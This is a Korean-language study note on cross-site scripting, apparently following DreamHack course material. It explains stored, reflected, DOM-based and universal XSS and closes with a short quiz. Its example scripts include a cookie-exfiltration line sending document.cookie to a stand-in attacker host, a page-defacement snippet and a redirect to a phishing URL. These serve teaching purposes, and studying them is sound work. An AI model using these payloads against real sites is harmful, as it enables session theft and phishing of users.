 # Cross Site Scripting (XSS)

## Cross Site Scripting (XSS)

XSS는 **클라이언트 사이드 취약점** 중 하나로, 공격자가 웹 리소스에 **악성 스크립트를 삽입**해 사용자가 해당 웹 리소스를 가져오면, **악성 스크립트를 실행**해서 정보를 탈취

**SOP 보안 정책**이 등장하면서, 이전에 비해 힘들어졌지만, 이를 **우회하는 다양한 기술**이 있다.

<img src="1.jpg">

## XSS 발생 예시와 종류

XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.

예를 들어 **<script>** 등을  이용해  악성  스크립트를  만들어서  사용자가  실행하게  한다.

XSS  종류는  다양하지만, 여기서는 4가지  정도  언급한다.  

|종류|내용|
|---|-----|
|Stored  XSS|XSS에  사용되는  악성  스크립트가 **서버에  저장**되고  서버의 **응답에  담겨오는** XSS|
|Reflected  XSS|XSS에  사용되는  악성  스크립트가 **URL에  삽입**되고  서버의 **응답에  담겨오는** XSS|
|DOM-based  XSS|XSS에  사용되는  악성  스크립트가 **URL  Fragment에  삽입**되는  XSS|
|Universal  XSS|클라이언트의 **브라우저** 혹은 **브라우저의  플러그인**에서  발생하는  취약점으로 **SOP  정책을  우회**하는  XSS|

<img src="2.jpg">

위의 실습에서 악성 스크립트를 작성하면, 아래 그림처럼 script를 탐지했다는 것을 볼 수 있다.

<img src="3.jpg">

## XSS 스크립트 예시

아까 적었던 것처럼 **<script>** 를  통해  악성  스크립트를  만듭니다.

즉, 자바스크립트를 주로 사용한다.

```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");

// 현재 페이지의 쿠키(return type: string)
document.cookie;

// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);

// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";

// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new  Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

위의 코드는 **쿠키 및 세션 탈취** 공격 코드이다.

```html
<script>
// 이용자의 페이지 정보에 접근.
document;

// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

위의 코드는 **페이지 변조** 공격 코드이다.

```html
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing";

// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

위의 코드는 **위치 이동** 공격 코드이다.  

# Basic XSS Lab(개편 전 실습)
## Types of XSS: Wrapup
### Stored XSS

**Stored XSS** : **서버의 데이터베이스** 또는 **파일** 등의 형태로 저장된 **악성 스크립트를 조회**할 때 발생하는 XSS(예 : 악성 스크립트가 들어간 게시물, 댓글 등)

<img src="4.jpg">

이렇게 스크립트를 적고, 목록에 가서 게시물을 클릭하면 다음과 같이 스크립트가 실행된다.

<img src="5.jpg">

### Reflected XSS

**Reflected XSS** : 서버가 **악성 스크립트가 담긴 요청을 출력**할 때 발생함(예 : 검색결과가 URL에 포함되는 경우 -> 검색엔진)
-> Stored XSS와는 다르게 **URL과 같은 이용자의 요청**에 의해 발생
--> 이용자들이 악성 링크에 접속하게 유도해야함(**Click Jacking** 또는 **Open Redirect**와 같은 취약점과 연계)

<img src="6.jpg">

다음과 같이 실습창이 있고, 위에 있는 URL에서 검색할 수 있다.

<img src="7.jpg">

그런데, 여기에 스크립트를 넣을 수도 있다.

<img src="8.jpg">

## Basic XSS Lab
**추후에 추가**

# 마치며
-   **Cross Site Scripting (XSS)**: 클라이언트 사이드 취약점, 공격자가 **웹 리소스에 악성 스크립트를 삽입**해 이용자의 웹 브라우저에서 해당 **스크립트를 실행**하는 취약점.
-   **Stored XSS**: 악성 스크립트가 **서버 내에** 존재, 이용자가 저장된 **악성 스크립트를 조회**할 때 발생
-   **Reflected XSS**: 악성 스크립트가 **이용자 요청 내에** 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 **응답을 출력**할 때 발생

# 퀴즈
1. 이용자의 요청에 악성 스크립트가 포함되는 XSS는?  
**답 : Reflected XSS**

2. XSS 취약점이 발생하는 곳은?  
**답 : 클라이언트 + 서버**

3. 다음 설명이 말하는 XSS로 올바른 것은?  
**공격 스크립트가 서버 내에 존재하는 데이터베이스 또는 파일 등의 형태로 저장되어 있다가 이용자가 저장된 공격 스크립트를 조회하는 순간 발생하는 형태의 XSS 입니다.**  
**답 : Stored XSS**